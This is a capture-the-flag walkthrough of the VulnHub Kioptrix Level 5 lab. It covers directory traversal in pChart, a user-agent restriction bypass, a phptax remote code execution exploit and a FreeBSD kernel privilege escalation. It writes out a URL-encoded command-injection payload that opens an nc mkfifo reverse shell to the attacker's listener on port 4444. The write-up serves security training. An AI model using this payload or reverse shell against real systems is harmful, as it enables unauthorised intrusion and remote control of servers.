


# GETTING STARTED

To download Kioptrix Level 5, click [here](https://www.vulnhub.com/entry/kioptrix-2014-5,62/).

**DISCLAIMER**
> This writeup documents the steps that successfully led to pwnage of the machine. It does not include the dead-end steps encountered during the process (which were numerous). I recommend attempting to solve the lab independently. If you find yourself stuck on a phase for more than a day, you may refer to the writeups for guidance. Please note that this is just one approach to capturing all the flags, and there are alternative methods to solve the machine.

**Note:** The IP address of my machines may change throughout the walkthrough because I worked on them in different locations. Please bear with me as you follow along.
# RECONNAISSANCE

To find the target IP, I perform a network scan using **nmap**.

```bash

┌──(root㉿kali)-[~/ctf/kioptrix-5]
└─# nmap -sn 192.168.1.0/24              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-12 13:30 EDT
Nmap scan report for RTK_GW (192.168.1.1)
Host is up (0.0023s latency).
MAC Address: F8:C4:F3:D0:63:13 (Shanghai Infinity Wireless Technologies)
Nmap scan report for kioptrix2014 (192.168.1.159)
Host is up (0.00035s latency).
MAC Address: 00:0C:29:D7:83:3F (VMware)
Nmap scan report for kali (192.168.1.12)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.98 seconds
```

After identifying the target IP as *192.168.1.159*, I perform an aggressive **nmap** scan on it to find open ports and running services.


Let's start the hack! ;)
# INITIAL ACCESS

I try fetching information about port 8080, but I am denied access.


I fetched information about port 80 using **curl** and found an interesting path.


I accessed the path in the browser and landed on a charting application.


I used **searchsploit** to look for any available vulnerabilities of this charting system and found a bunch.


Based on this, it seems that the application is vulnerable to *directory traversal* and *reflected XSS*.

Hence, to test it out, I tried adding `../../../` at the end of the URL.


Now that I know that it works, I go to the **Exploit-DB** website and view the entire information about the directory traversal vulnerability. I find this URL, so I give it a try.


I successfully got the */etc/passwd* file. Now I use chat-gpt to find the directory where FreeBSD systems store Apache configuration details.


Hence, I access this file. Since the **nmap** scan revealed the Apache version, I look for the *apache22* directory.


I read the configuration file and found the reason I was being denied access to port 8080.


It required a specific user-agent. I use **curl** to fetch information about that port by adding this user-agent.


This time, I was able to view the contents. I used **searchsploit** to look into *phptax* for possible exploits.

>PHPtax is a free, open-source web application designed for managing and preparing tax documents. It was created to help individuals and small businesses handle their tax-related tasks more efficiently without needing to invest in expensive commercial software. The application allows users to input their financial data, track their income and expenses, and generate tax forms that are compliant with the relevant regulations. PHPtax is built using PHP, making it accessible for those who have a basic understanding of web development, and can be customized or extended to fit specific needs. Its primary goal is to simplify the tax preparation process while providing a flexible, user-friendly platform.


I tried the exploit available on **Metasploit**, but it didn't work for me. So, I Googled to look for any other ways.

I found this exploit on **Exploit-DB** that allowed me to get a reverse shell using **nc**: [exploit link](https://www.exploit-db.com/exploits/21665).

I started an **nc** listener on port 4444.

```bash

rlwrap nc -lnvp 4444
```

I then visited [revshells.com](https://www.revshells.com/) and selected the **nc mkfifo** exploit.


For increasing the odds of success, I URL encoded this payload.


Now I edited this URL that was given in the **Exploit-DB** page with my own reverse shell script.


```url

http://192.168.1.2:8080/phptax/drawimage.php?pfilez=1040d1-pg2.tob;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.1.12%204444%20%3E%2Ftmp%2Ff;&pdf=make
```

Now I download an extension that allows me to modify the header. This is because I want to execute this URL on my browser, and without the *user-agent* field, I won't be able to access the site.


I configure it to add the appropriate *user-agent* field.


I save this and turn my extension on, then paste my URL.


And voila! I got the initial access.


# PRIVILEGE ESCALATION

I look around and find the flag inside the root directory. However, I do not have the privilege to read it.


I view the kernel information using **uname**.


I look for exploits related to this FreeBSD version.


I download the first exploit on my PC and check if I have **gcc** installed on the target.

```bash

which gcc
```

Then I move into the *tmp* directory. Since the system does not have **wget**, I found another command that can be used in its place in this [article](https://forums.freebsd.org/threads/what-is-the-download-command-in-freebsd.10123/)




I compile and run this exploit.



Hence, I got root access. Now I move into the root directory and set permissions on the flag.


>The `777` in `chmod 777` means:
>- `7` for the owner: read, write, and execute permissions.
>- `7` for the group: read, write, and execute permissions.
>- `7` for others: read, write, and execute permissions.
>So, everyone can read, write, and execute the file.


# CLOSURE

Here's a summary of how I pwned Kioptrix Level 5:
- I exploit the LFI vulnerability in the *pchart* page to get HTTP configuration information.
- This gave me a way to access the server on port 8080.
- I use the *phptax* RCE exploit to get a reverse shell from the server running on port 8080.
- I use a kernel exploit to escalate my privilege.

That's it from my side. See you in the next walkthrough.


Happy Hacking :)

------------------------------------------------------------------------------------